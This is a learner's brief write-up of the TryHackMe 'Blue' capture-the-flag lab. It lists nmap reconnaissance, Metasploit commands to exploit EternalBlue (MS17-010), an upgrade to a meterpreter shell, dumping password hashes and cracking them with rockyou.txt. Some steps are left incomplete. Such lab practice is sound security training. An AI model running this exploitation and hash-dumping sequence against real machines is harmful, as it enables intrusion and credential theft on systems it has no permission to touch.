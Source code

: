 # TryHackMe Room: Blue

# Date:
    `06/12/2025`

## Objective: 
Deploy and hack into a windows machine, leveraging common misconfiguration issues


## Recon:

### Nmap Scan
```bash
nmap -T4 -sC -sV [target address]
```
### What did I learn from this? 
- There are three ports that are open under port # 1000
- I understand that this is vulnerable to Eternal Blue, but I don't understand the reason behind why it is vulnerable. 

### Vulnerable to MS17-010

### Gaining access through metasploit
```bash
msfconsole
search eternal blue
use 0

set LHOST [your IP]
set RHOSTS [target]

set payload 
```

## Escalate those privs
### Shell -> meterpreter 
To escalate, I needed to upgrade the shell to a meterpreter shell. 
To do that I used:
```bash
    /multi/manage/shell_to_meterpreter 
    sessions -u -1
```

Got the meterpreter command line then used hashdump to dump password hashes

Discovered somehow someway that was an md4 hash then used hashmap to compare with rockyou.txt
